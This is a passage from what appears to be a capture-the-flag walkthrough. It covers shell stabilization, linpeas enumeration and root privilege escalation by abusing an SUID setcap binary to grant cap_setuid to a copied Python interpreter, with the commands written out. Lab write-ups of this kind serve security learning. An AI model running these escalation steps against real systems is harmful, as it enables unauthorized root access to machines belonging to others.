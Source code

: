 
Now, set up a listener and execute the exploit with `python2`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250610125955.png)

We got our shell, let's proceed with privilege escalation.

## PRIVILEGE ESCALATION

***

First of all, let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250610130506.png)

Time to use `linpeas`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250610130840.png)

As seen, we got an unknown SUID binary, this is the `setcap` binary, The `setcap` binary allows setting file capabilities with root privileges. By granting `cap_setuid` capability to a malicious binary we control, we can escalate to root when executing it.

Let's do it, for this, we can go with different ways to escalate our privileges, in this case, we will do it with python.

**Copy the Python interpreter** to a writable location:

```python
cp $(which python3) /tmp/mypython
```

**Grant `cap_setuid` capability** to the copied Python binary:

```python
/sbin/setcap cap_setuid+ep /tmp/mypython
```

**Create a Python script** to spawn a root shell:

```python
cat <<EOF > /tmp/rootme.py
import os
os.setuid(0)
os.system("/bin/bash")
EOF
```

